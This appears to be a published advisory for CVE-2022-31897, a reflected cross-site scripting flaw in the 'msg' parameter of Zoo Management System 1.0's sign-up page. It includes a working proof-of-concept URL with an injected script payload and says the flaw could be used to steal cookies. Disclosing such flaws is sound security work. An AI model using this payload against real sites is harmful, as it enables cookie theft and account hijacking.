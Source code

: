 # CVE-2022-31897

# Date: 06/22/2022
# Exploit Author: Angelo Pio Amirante
# Vendor Homepage: https://www.sourcecodester.com/
# Software Link: https://www.sourcecodester.com/php/15344/zoo-management-system-phpoop-free-source-code.html
# Version: 1.0
# Tested on: Server: XAMPP on Windows 10 
# CVE: CVE-2022-31897

# Description:
Zoo Management System 1.0 is vulnerable to reflected cross-site scripting on the sign-up page. The "msg" parameter in 'http://localhost/public_html/register_visitor?msg=' is vulnerable.

# Impact:
An attacker could steal cookies with a crafted URL sent to the victims.

# Exploit:

Visit the following page: 

1. http://localhost/public_html/register_visitor?msg=<script>alert(window.navigator.userAgent)</script>

2. Alert pop up is fired!


# Image poc:

- [Registration page](https://ibb.co/8XKDgJX)
- [XSS](https://ibb.co/mTTmTmy)

 
